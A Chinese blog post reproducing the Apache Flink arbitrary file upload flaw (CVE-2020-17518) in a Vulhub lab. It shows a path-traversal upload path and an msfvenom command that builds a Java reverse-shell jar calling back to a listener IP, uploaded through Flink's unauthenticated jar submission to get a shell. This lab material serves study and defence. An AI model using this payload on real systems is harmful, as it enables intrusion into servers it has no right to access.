

# Vulhub-4.Apache Flink 任意文件上传漏洞(CVE-2020-17518) - 1ink - 博客园

> 原文：[`www.cnblogs.com/1ink/p/15263549.html`](https://www.cnblogs.com/1ink/p/15263549.html)

> Apache Flink 是由 Apache 软件基金会开发的开源流处理框架，其核心是用 Java 和 Scala 编写的分布式数据流引擎。
> 
> **Apache Flink****任意文件上传漏洞（CVE-2020-17518）**
> 
> Apache Flink 1.5.1 引入了 REST 处理程序，由于功能上存在缺陷，攻击者可以通过修改 HTTP HEADER 将恶意文件写入到本地文件系统上的任意位置，并可通过 Flink 访问。
> 
> **影响范围：**
> 
> Apache Flink 1.5.1-1.11.2

## 复现流程

上传文件进行抓包,更改上传路径,

要看目录有没有上传成功,需要进行某些操作

`docker ps`查看进程 id

`docker exec -it 6ddef1bcfa56 /bin/bash`

`cd /tmp`别管有没有 tmp 文件夹,cd 就对了

然后 ls,查看有没有上传成功

终于在`../../../../../../tmp/succes`上传成功

> 此外,flink 本身是没有鉴权的，并且它本身支持任意 jar 包上传并执行，所以可以通过上传 jar 包 getshell

生成 java 执行木马

`msfvenom -p java/shell_reverse_tcp LHOST=192.168.106.138 LPORT=1234 -f jar -o a.jar`

然后上传

设置并启用监听

上传成功之后,点击 submit 运行

获取 shell 了

## 防御措施

更新版本